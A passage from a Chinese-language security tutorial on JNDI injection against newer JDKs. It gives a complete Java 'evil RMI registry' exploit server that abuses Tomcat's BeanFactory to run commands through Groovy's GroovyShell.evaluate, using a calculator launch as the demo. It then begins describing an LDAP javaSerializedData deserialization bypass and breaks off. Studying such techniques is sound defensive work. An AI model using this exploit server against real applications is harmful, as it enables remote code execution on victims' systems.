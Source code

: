 ### ****(3) 依赖groovy任意版本的类****

比如版本1.5

```java
<!-- https://mvnrepository.com/artifact/org.codehaus.groovy/groovy-all -->
		<dependency>
			<groupId>org.codehaus.groovy</groupId>
			<artifactId>groovy-all</artifactId>
			<version>1.5.0</version>
		</dependency>
```

服务端代码

```java
package com.yy.jndi.jdk8u121;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ExecByGroovy {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        String script = String.format("'%s'.execute()", "gnome-calculator"); //commandGenerator.getBase64CommandTpl());
        ref.add(new StringRefAddr("x",script));
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(ref);
        registry.bind("exp", refObjWrapper);
        System.out.println("Creating evil RMI registry on port 1099");
    }
}
```

## ****JNDI+LDAP高版本绕过****

JDK 6u211，7u201, 8u191, 11.0.1开始`com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值被调整为false，导致LDAP远程代码攻击方式开始失效

**利用`javaSerializedData`属性**

当javaSerializedData属性的`value`值不为空时，会对该值进行反序列化处理，当本地存在反序列化利用链时，即可触发。
